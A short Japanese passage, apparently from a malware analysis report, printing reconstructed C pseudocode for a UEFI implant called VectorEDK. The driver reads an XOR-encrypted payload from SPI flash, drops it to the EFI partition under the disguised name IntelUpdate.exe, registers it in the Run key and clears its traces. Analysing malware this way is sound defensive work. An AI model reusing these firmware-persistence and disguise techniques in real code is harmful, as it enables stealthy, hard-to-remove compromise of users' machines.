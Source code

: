 ### 技術的詳細

#### VectorEDK ドライバの動作

```c
// VectorEDK 疑似コード（解析結果）
EFI_STATUS
EFIAPI
VectorEntry (
  IN EFI_HANDLE        ImageHandle,
  IN EFI_SYSTEM_TABLE  *SystemTable
  )
{
  EFI_STATUS  Status;
  VOID        *Payload;
  UINTN       PayloadSize;

  // 1. SPI Flash から暗号化されたペイロードを読み取り
  Payload = ReadFromSpiFlash(PAYLOAD_OFFSET, &PayloadSize);

  // 2. 復号化（XOR ベースの簡易暗号）
  DecryptPayload(Payload, PayloadSize, HARDCODED_KEY);

  // 3. EFI System Partition に書き込み
  Status = WriteToEsp(L"\\EFI\\Microsoft\\Boot\\IntelUpdate.exe",
                      Payload,
                      PayloadSize);

  // 4. レジストリ Run キーに追加（OS 起動時に実行）
  Status = AddToStartup(L"IntelUpdate.exe");

  // 5. 痕跡を消去
  FreePool(Payload);

  return EFI_SUCCESS;
}

VOID
DecryptPayload (
  IN OUT UINT8  *Data,
  IN UINTN      Size,
  IN UINT32     Key
  )
{
  // 単純な XOR 暗号化
  for (UINTN i = 0; i < Size; i++) {
    Data[i] ^= (UINT8)(Key >> ((i % 4) * 8));
  }
}
```

#### 永続化メカニズム
